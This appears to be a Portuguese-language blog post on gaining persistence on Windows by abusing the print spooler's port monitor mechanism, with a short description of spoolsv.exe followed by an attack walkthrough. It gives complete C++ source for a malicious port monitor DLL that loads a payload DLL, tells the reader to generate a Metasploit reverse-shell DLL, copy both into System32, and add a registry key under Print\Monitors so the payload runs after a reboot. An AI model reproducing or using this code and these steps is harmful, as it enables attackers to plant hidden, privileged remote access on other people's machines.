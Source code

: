 ```yaml
---
layout: post
title: Atingindo Persistência com spoolsv.exe
subtitle: Quando o spoolsv.exe se Torna um Disfarce para Malware
cover-img: /assets/img/path.jpg
thumbnail-img: /assets/img/spooler.jpg
share-img: /assets/img/path.jpg
tags: [Windows, C++]
---
```


Profundizando no Mundo do spoolsv.exe

O spoolsv.exe é um processo do sistema operacional Windows responsável por gerenciar as tarefas de impressão. Ele é essencial para o funcionamento correto da impressora no sistema. O termo "spool" significa "Simultaneous Peripheral Operations Online" e refere-se à técnica de gerenciamento de impressão em que os trabalhos de impressão são colocados em uma fila (spool) para que possam ser processados em ordem.

Aqui está um resumo das principais funções e características do spoolsv.exe:

Gerenciamento de Filas de Impressão: O spoolsv.exe gerencia as filas de impressão no sistema. Ele permite que vários trabalhos de impressão sejam enviados à impressora e processados em ordem.

Intermediação de Impressão: Ele atua como uma espécie de intermediário entre os aplicativos que solicitam a impressão e a própria impressora. Os aplicativos enviam os trabalhos para o spooler, que os coloca na fila e os envia para a impressora quando esta estiver pronta para processá-los.

Processamento de Trabalhos: O spoolsv.exe controla o processamento dos trabalhos de impressão. Ele verifica se há erros nos trabalhos, se a impressora está disponível e se há papel e tinta suficientes antes de enviar um trabalho para impressão.

Monitoramento de Impressoras: O processo monitora o status das impressoras instaladas no sistema. Isso inclui verificar se a impressora está online, se há algum problema de comunicação, e assim por diante.

Resolução de Problemas de Impressão: Se ocorrerem erros durante o processo de impressão, o spoolsv.exe pode tentar corrigir ou resolver esses problemas, como reenviar trabalhos que não foram concluídos com sucesso.

Consumo de Recursos: O spoolsv.exe é uma parte essencial do sistema operacional Windows e geralmente consome uma quantidade mínima de recursos do sistema. No entanto, em casos raros, problemas podem surgir que levam a um aumento anormal no uso de CPU ou memória.

Localização no Sistema: O spoolsv.exe geralmente é encontrado na pasta "C:\Windows\System32" no sistema operacional Windows.

Vulnerabilidades e Segurança: Em certas circunstâncias, o spoolsv.exe pode ser alvo de ataques de malware, pois é uma parte crítica do sistema relacionada à funcionalidade de impressão. Por isso, é importante manter o sistema atualizado com as últimas atualizações de segurança.


agora vamos ao que interessa isso não é uma vulnerabilidade é abusar de uma função interna do spooler,basicamente é um Port Monitor DLL template.


esse é o codigo :


~~~cpp

#include <Windows.h>
#include <Winsplp.h>



BOOL WINAPI DllMain( HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpReserved ) {

	switch ( fdwReason ) {
		case DLL_PROCESS_ATTACH:
			break;
		case DLL_THREAD_ATTACH:
			break;
		case DLL_THREAD_DETACH:
			break;
		case DLL_PROCESS_DETACH:
			break;
		}
	return TRUE;
}

void Go(void) {
    HMODULE hModule = LoadLibrary("c:\\Windows\\System32\\spool.dll");
    if (hModule == NULL) {
        // erro ao carregar a biblioteca
        return;
    }
    // biblioteca carregada com sucesso, faça o que precisar aqui

}



// Mandatory functions
BOOL WINAPI pfnOpenPort(HANDLE hMonitor, LPWSTR pName, PHANDLE pHandle){ return TRUE; }
BOOL WINAPI OpenPortEx(HANDLE hMonitor, HANDLE hMonitorPort, LPWSTR pPortName, LPWSTR pPrinterName, PHANDLE pHandle, struct _MONITOR2 *pMonitor){ return TRUE; }
BOOL (WINAPI pfnStartDocPort)(HANDLE hPort, LPWSTR pPrinterName, DWORD JobId, DWORD Level, LPBYTE pDocInfo) { return TRUE; }
BOOL WritePort(HANDLE hPort, LPBYTE pBuffer, DWORD cbBuf, LPDWORD pcbWritten){ return TRUE; }
BOOL ReadPort(HANDLE hPort, LPBYTE pBuffer, DWORD cbBuffer, LPDWORD pcbRead){ return TRUE; }
BOOL (WINAPI pfnEndDocPort)(HANDLE hPort) { return TRUE; }
BOOL ClosePort(HANDLE hPort){ return TRUE; }
BOOL XcvOpenPort(HANDLE hMonitor, LPCWSTR pszObject, ACCESS_MASK GrantedAccess, PHANDLE phXcv) { return TRUE; }
DWORD XcvDataPort(HANDLE hXcv, LPCWSTR pszDataName, PBYTE  pInputData, DWORD cbInputData, PBYTE  pOutputData, DWORD cbOutputData, PDWORD pcbOutputNeeded) { return ERROR_SUCCESS; }
BOOL XcvClosePort(HANDLE hXcv){ return TRUE; }
VOID (WINAPI pfnShutdown)(HANDLE hMonitor) { }
DWORD WINAPI pfnNotifyUsedPorts(HANDLE hMonitor,DWORD cPorts,PCWSTR *ppszPorts){ return ERROR_SUCCESS; }
DWORD WINAPI pfnNotifyUnusedPorts(HANDLE hMonitor,DWORD cPorts,PCWSTR *ppszPorts){ return ERROR_SUCCESS; }
DWORD WINAPI pfnPowerEvent(HANDLE hMonitor,DWORD event,POWERBROADCAST_SETTING *pSettings){ return ERROR_SUCCESS; }


LPMONITOR2 WINAPI InitializePrintMonitor2(PMONITORINIT pMonitorInit, PHANDLE phMonitor){
	// launch your malcode in a separate thread
	CreateThread(0, 0, (LPTHREAD_START_ROUTINE) Go, 0, 0, 0);
	
	MONITOR2 mon = {sizeof(MONITOR2), NULL, pfnOpenPort, OpenPortEx, pfnStartDocPort, WritePort, ReadPort, pfnEndDocPort, ClosePort, NULL, NULL, NULL, NULL, NULL, NULL, XcvOpenPort, XcvDataPort, XcvClosePort, pfnShutdown, NULL, pfnNotifyUsedPorts, pfnNotifyUnusedPorts, pfnPowerEvent };
	return &mon;
}

~~~



bem basicamente voce copia isso em um arquivo .cpp e compila em dll e não exe,e então joga na pasta system32. obs nomear a dll para portmon.dll.

agora a mesma ideia do lsass.exe vamos gerar uma dll reverse shell no metasploit e então copia a dll pasta system 32 também obs : no codigo definimos a dll para spool.dll entao devemos nomear esta dll para spool.dll antes de colocar em system32, e o ultimo passo é executar esse comando no cmd,esse comando cria uma chave de registro.

~~~
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Print\Monitors\PortMonitor" /v Driver /t REG_SZ /d "portmon.dll" /f
~~~

e esse caso deseja remover:
~~~
reg delete "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Print\Monitors\PortMonitor" /v Driver /f
~~~

e pronto basta apenas reiniciar o sistema.





